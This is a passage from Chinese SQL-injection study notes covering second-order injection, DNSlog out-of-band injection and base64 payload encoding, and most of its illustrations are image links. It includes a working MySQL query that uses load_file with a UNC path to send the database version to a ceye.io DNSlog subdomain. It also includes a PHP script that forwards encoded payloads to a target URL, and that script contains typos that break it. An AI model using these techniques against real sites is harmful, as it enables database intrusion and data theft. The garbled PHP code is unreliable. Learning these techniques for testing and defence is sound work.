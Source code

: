 > ccess偏移注入:解决列名获取不到的情况 查看登陆框源代码的表单值或观察URL特征等也可以针对表或列获取不到的情况

### 涉及资源

https://www.jianshu.com/p/bc35f8dd4f7c https://www.jianshu.com/p/fcae21926e5c

## 17. SQL注入之二次,加解密,DNS等注入

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhicYZ6kDpHTLqo1Pfzoia3dcgHt0HxnicYfCFroG2B39AjC55luJpiavuZw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

在这里插入图片描述

```
DNSlog:解决了盲注不能回显数据，效率低的问题
```

### 17.1 二次注入

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhe3WFMMiaanhU7SwtuqXbWOQNGuLfqkPNM3UmGOX0WCyLkFIXcr5Rblw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMh9B0LyN80Ilnf2giaDIHxYvjKtEBQIfIQUVCWgl4jADibgibrkHDkt5yKw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

- 第一个是原有的，第二个是我们注册的，当我们修改第二个的密码的时候，由于存在`‘#`，数据库会判断错误，相当于修改了第一个的密码。
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhLasNCB8eKkljYVUYFJ8KFlN1Mwsymu77VQqZVGeNoEFic6xdV6jKWPA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

### 

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhFO2xnJwq7Wrw1qOeyibTHKNmH3vt8oe1ydTojcI7wmsaxCh4bOPVV1g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

### 17.2 DNSlog 

- DNSlog可以解决无回显问题
- `mysql> select * from users where id=1 and if((select load_file(concat('\\\\',(select version()),'.eii0i8.ceye.io\\abc'))),1,0);Empty set (21.14 sec)`

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhutu0iclhuPVce1CHAkicB1j9869EibxyuX8c178NeWGK37iaDawLPMAOCA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

在这里插入图片描述

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhKGj6ynMBu5oYeMpGxmXxL2M6iajnRRmGyiclbx4v9ohkzicJQGuY5D1QQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

在这里插入图片描述

```
将url和注入语句分开
<?php
$url='http://xxx/job_bystjb/yjs_byszjs.asp?id=';
$payload=base64_encode($_GET['x']);
echo $payload;
$urls=$ur1.Spayload; 
file_get_contents($urls);
echo $urls;
?>
```
